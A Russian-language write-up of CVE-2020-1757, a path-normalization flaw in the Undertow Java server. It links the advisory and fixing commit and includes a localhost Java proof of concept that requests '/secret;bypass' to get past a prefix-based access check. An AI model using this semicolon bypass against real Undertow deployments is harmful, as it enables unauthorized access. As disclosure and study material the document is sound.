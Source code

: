 # Обзор #

## Описание уязвимости на github asvisory: ##
https://github.com/advisories/GHSA-2w73-fqqj-c92p

## Описание уязвимости: ##
Во всех версиях undertow-2.x.x SP1 до undertow-2.0.30.SP1, во всех версиях undertow-1.x.x и undertow-2.x.x до undertow-2.1.0.Final была обнаружена уязвимость, при которой контейнер сервлета приводит к неправильной нормализации servletPath, обрезая путь после точки с запятой, что может привести к сопоставлению приложения и, как следствие, к обходу безопасности.

## public метод пакета приводящий к уязвимости ##
CVE-2020-1757 - java.lang.String.substring

### final class HttpServerExchange ###

~~~java
public String getRequestPath()
~~~

### Репозиторий проекта с уязвимостью: ###
https://github.com/undertow-io/undertow

## PoC: ##
~~~java
public static void main(String[] args) throws IOException {
        Undertow server = Undertow.builder()
                .addHttpListener(8080, "localhost")
                .setHandler(new HttpHandler() {
                    @Override
                    public void handleRequest(HttpServerExchange exchange) {
                        String path = exchange.getRequestPath();
                        if (path.startsWith("/secret")) {
                            exchange.setStatusCode(403);
                            exchange.getResponseSender().send("Access denied");
                        } else {
                            exchange.getResponseSender().send("Public resource");
                        }
                    }
                }).build();
        server.start();

        // Тест: Проверка обхода пути через ;
        testRequest("http://localhost:8080/secret;bypass");

        server.stop();
    }

    private static void testRequest(String url) throws IOException {
        HttpURLConnection connection = (HttpURLConnection) new URL(url).openConnection();
        connection.setRequestMethod("GET");
        int responseCode = connection.getResponseCode();
        String content = new String(connection.getInputStream().readAllBytes());

        System.out.println("URL: " + url);
        System.out.println("Response Code: " + responseCode);
        System.out.println("Content: " + content + "\n");
    }
~~~


## Коммиты, исправившие уязвимость: ##
https://github.com/undertow-io/undertow/commit/2291c7c07dc5bccf3b45c4db3a1b63123b8ce484

https://osv.dev/vulnerability/CVE-2020-1757
